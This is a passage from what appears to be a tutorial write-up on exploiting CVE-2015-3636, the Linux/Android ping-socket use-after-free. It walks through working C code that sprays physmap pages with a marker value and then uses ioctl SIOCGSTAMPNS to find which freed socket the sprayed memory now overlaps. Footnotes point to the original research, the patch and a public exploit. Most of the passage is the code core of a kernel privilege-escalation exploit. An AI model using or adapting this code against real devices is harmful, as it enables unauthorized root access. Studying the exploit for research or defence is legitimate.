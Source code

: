 ```c++
  		void* mapped_page;
		mapped = mmap(NULL, MAX_PHYSMAP_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
		if (mapped == MAP_FAILED) errhandler("[!] spraying().mmap");
		for(j = 0; j < MAX_PHYSMAP_SIZE / PAGE_SIZE; j++)
  		{
      		memset((void *)((char *)mapped + PAGE_SIZE * j), 0x41, PAGE_SIZE);  
      		mapped_page = (void *)((char *)mapped + PAGE_SIZE * j);
      		*(unsigned long *)((char *)mapped_page + 0x1D8)  = MAGIC_VALUE + physmap_spray_pages_count;
      		// special magic for quick identify
			physmap_spray_pages[physmap_spray_pages_count]  =  mapped_page;
			physmap_spray_pages_count++;
  		}
	}
	printf("[~] Done physmap spraying!\n");
}
```

Those parameters for spraying can be trivial, so I just copy from the workable exploit, and fortunately, it works. In this function, we create `MAX_VULTRIG_SOCKS_COUNT` sockets, do what we did in the POC code (hashing the socket, then try to release them). After that, we have plenty of released `struct sock` in hand.

So we start *physmap spraying*, hope through large `mmap` space we can fetch one of those released `sock`. To test that, we can adopt the `ioctl` + `SIOCGSTAMPNS` skill, which will retrieve a specific field in the wanted `socket` struct. That is to say, if we fill that field with some identifiable magic value, we can use this `ioctl` to verify whether or not the parameter is a vulnerable socket. The code is shown below.

```c++
void fetching(void)
{
	printf("[+] Start fetching the UAF socket...\n");
    struct timespec time;
    uint64_t value;
    void* page = NULL;
    int j = 0;
    int got = 0;
	int index = MAX_VULTRIG_SOCKS_COUNT / 2;
    do
    {
        exp_sock = vultrig_socks[index];
        memset(&time, 0, sizeof(time));
        ioctl(exp_sock, SIOCGSTAMPNS, &time);

        value = ((uint64_t)time.tv_sec * NSEC_PER_SEC) + time.tv_nsec;
        for(j = 0;  j < physmap_spray_pages_count; j++)
        {
            page = physmap_spray_pages[j];
            if(value == *(unsigned long *)((char *)page + 0x1D8)) 	// value equals to what we filled
            {
                printf("[*] obtained magic:%p\n", value);
                got      = 1;
                payload = page;	// The vulnerable socket is located in this page
                break;
            }
        }
        index += 1;
    }
    while(!got && index < MAX_VULTRIG_SOCKS_COUNT);

    if(got == 0) errhandler("[!] fetching() fail...");
```

[^1]: Owe You Android, Yet Another Universal Root. [LINK](https://www.blackhat.com/docs/us-15/materials/us-15-Xu-Ah-Universal-Android-Rooting-Is-Back-wp.pdf)
[^2]: Pwnie for Best Privilege Escalation Bug, 2015. [LINK](https://pwnies.com/archive/2015/nominations/)
[^3]: Bug Patch. [LINK](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=a134f083e79fb4c3d0a925691e732c56911b4326)
[^4]: One workable exploit [LINK](https://github.com/4B5F5F4B/Exploits/tree/master/Linux/CVE-2015-3636)
[^5]: goldfish git repo [LINK](https://android.googlesource.com/kernel/goldfish/+/refs/heads/android-goldfish-3.10-k-dev)